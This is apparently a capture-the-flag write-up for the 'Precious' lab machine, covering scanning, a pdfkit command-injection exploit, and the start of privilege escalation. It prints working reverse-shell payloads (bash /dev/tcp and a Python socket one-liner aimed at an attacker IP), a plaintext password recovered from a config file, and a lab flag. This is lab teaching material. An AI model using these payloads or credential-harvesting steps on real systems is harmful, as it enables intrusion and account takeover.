 # Overview

## Footprinting:
```
└─$ nmap -sV -A -p- 10.10.11.189            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 22:17 EDT
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

## Initial foothold:
```
curl http://10.10.11.189:80/ -L
curl: (6) Could not resolve host: precious.htb
```

The attacker machine is not able to resolve the local hostname for the redirect:
```
vim /etc/hosts
10.10.11.189    precious.htb
```

The web application will process the passed URL and generate a PDF accordingly.

It can be possible to weaponize this by hosting a Python local web server and redirect the URL to the attacker's payload.

We can try to generate a reverse shell payload that will be fetched:
```
vim payload.sh

sh -i >& /dev/tcp/10.10.14.39/1234 0>&1
```

If the payload gets executed, we need to setup a listener on the attacker machine:
```
nc -nvlp 1234
```

Finally, we can host this payload with a local Python web server:
```
python -m http.server 8000
```

On the target, we can provide the following URL:
```
http://10.10.14.39:8000/payload.sh
```

The local web server receives the connection, but no reverse shell is established:
```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.189 - - [11/May/2023 13:28:38] "GET /payload.sh HTTP/1.1" 200 -
```

The web application generates a PDF containing the content of the file downloaded. If we check the content of the PDF, we can get more information about the pdfkit software used:
```
 cat yncynx8ds9if3xihyzzej7dfvjsojktg.pdf
 
 <rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:creator>
   <rdf:Seq>
    <rdf:li>Generated by pdfkit v0.8.6</rdf:li>
   </rdf:Seq>
  </dc:creator>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
```

The version used is affected by a command injection vulnerability:
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

The original attack vector can now be replaced with directly launching a reverse shell from the target to the attacker machine. We can generate a payload to exploit the flaw in the web application:
```
http://example.com/?name=#{'%20`export RHOST="10.10.14.39";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`'}
```

The connection is set on the receiver:
```
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.11.189] 39274
$ whoami
ruby
```

Upgrading the basic shell to be interactive:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege escalation:

Now that we have access to the ruby user, we need to elevate our privileges:
```
bash-5.1$ cd /home/ruby

bash-5.1$ ls -la

total 32
drwxr-xr-x 5 ruby ruby 4096 May 11 08:21 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 May 11 01:00 .cache
drwxr-xr-x 3 ruby ruby 4096 May 11 08:21 .local
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

We have the password in clear text for the user henry:
```
bash-5.1$ cd .bundle

bash-5.1$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

bash-5.1$ su henry 
Password: Q3c1AqGHtoI0aXAYFH

bash-5.1$ whoami
henry

bash-5.1$ cd /home/henry

bash-5.1$ cat user.txt
b7da17f8f92a7e02a6b4489d3433f7b1
```

By checking the sudo permissions for the user henry, we can see he is able to launch an elevated command from the ruby binary by passing a script as an argument without root password:
```
bash-5.1$ sudo -l

Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

By looking at the script, we can see that it will load a YAML file that we can provide:
```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```